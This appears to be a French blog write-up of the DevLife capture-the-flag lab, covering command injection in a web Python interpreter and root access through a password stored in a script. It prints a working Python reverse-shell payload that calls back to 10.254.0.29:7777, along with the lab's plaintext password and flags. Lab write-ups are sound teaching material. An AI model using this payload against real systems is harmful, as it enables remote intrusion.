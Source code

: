 # Solution du CTF DevLife de Wizard Labs

The Meaning of Life
-------------------

Sur ce CTF facile de [Wizard Labs](https://labs.wizard-security.net/) se trouve un site web d'un certain *Teddy Smith* indiquant qu'il travaille sur un interpréteur Python pour le web.  

Du coup on n'est pas trop surpris de trouver ceci à l'URL */dev* :  

![WizardLabs CTF Devlife python interpreter RCE](https://github.com/devl00p/blog/raw/master/images/wizard-labs/devlife_interpreter.png)

On remarque vite que l'output des commandes ne nous est pas retourné. Il semble aussi que l'interpréteur a du mal à digérer les double-quotes, peut être le signe d'une injection de commande shell (on peut imaginer un appel du type *python2 -c "your\_payload\_here"*).  

Vu que l'on a du Python, autant s'y tenir. J'ai fait le script suivant pour passer plusieurs lignes au script PHP :  

```python
import requests

backdoor = (
    "import os;"
    "import socket;"
    "import pty;"
    "s=socket.socket();"
    "s.connect(('10.254.0.29',7777));"
    "os.dup2(s.fileno(),0);"
    "os.dup2(s.fileno(),1);"
    "os.dup2(s.fileno(),2);"
    "os.putenv('HISTFILE','/dev/null');"
    "pty.spawn('/bin/bash');"
    "s.close()"
)

response = requests.post(
        "http://10.1.1.20/dev/interpreter.php",
        data={"com": backdoor}
)
print(response.text)
```

Pour le néophyte Python, l'absence de virgules dans la variable *backdoor* n'est pas une typo, juste une façon de rendre plus lisible une longue chaîne.  

man sudoers
-----------

Une fois notre shell obtenu en tant que *www-data* j'ai vite remarqué différents scripts en relation avec *sudo* ou *su* :  

```plain
www-data@Devlife:/var/www/html/dev$ w
 13:38:45 up  2:13,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                11:26    2:10m  0.13s  0.05s nano sudo.py
www-data@Devlife:/var/www/html/dev$ last
tedd     pts/1        10.253.0.158     Sun Dec 23 13:21 - 13:22  (00:01)
root     tty1                          Sun Dec 23 11:26   still logged in
reboot   system boot  4.9.0-7-amd64    Sun Dec 23 11:25   still running
reboot   system boot  4.9.0-7-amd64    Sun Dec 23 11:21   still running
tedd     pts/1        10.254.0.6       Mon Sep 17 16:13 - 16:49  (00:36)
reboot   system boot  4.9.0-7-amd64    Sat Sep 15 21:19   still running

wtmp begins Sat Sep 15 21:19:20 2018
```

Même chose pour l'utilisateur *tedd* (en plus de son flag) :  

```
www-data@Devlife:/var/www/html/dev$ cat /home/tedd/user.txt
529c7a0e511974d8e8761430bb8a12bf93e44406

www-data@Devlife:/home/tedd/.env$ cat su.py

import pexpect
child = pexpect.spawn('su root')
child.expect ('Password:')
child.sendline('teddyxy2019')
child.expect('\$')
child.sendline('whoami')
```

Stockage du mot de passe... mauvaise idée :p  

Les utilisateurs *tedd* et *root* partagent le même mot de passe.  

```plain
root@Devlife:~# cat /root/root.txt
d360adc7e9c5ceb3588a79bd88e3cec7a5d14368
```


*Published April 04 2019 at 18 05*